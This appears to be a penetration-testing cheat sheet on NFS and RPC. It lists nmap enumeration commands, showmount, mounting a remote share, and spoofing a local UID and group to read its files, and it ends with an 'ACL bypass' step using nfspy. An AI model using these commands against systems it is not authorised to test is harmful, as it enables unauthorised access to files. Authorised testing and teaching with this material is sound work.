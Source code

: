 # NFS/RPC - TCP 111, 2049

### Note :-

```
# Check UID of mounted share and make a user with the same UID and group memberships to access the mounted share locally.
sudo useradd dummy; sudo usermod -u 2017 dummy; sudo usermod -a -G www-data dummy
```

### Check if services are registered with RPCbind

```
nmap -sV -p 111 --script=rpcinfo <ip range>
```

### Enumerate NFS with Nmap

```
nmap -p 111 --script nfs* <target ip>
```

### Mount an NFS share

```
mkdir /tmp/home
sudo mount -o nolock <target ip>:/home /tmp/home/
```

### Show available mounts on a system

```
showmount -e <target ip>
```

### Bypass ACL with nfspy

```
Script src: https://github.com/bonsaiviking/NfSpy
sudo nfspysh -o server=<target ip>:/home
```
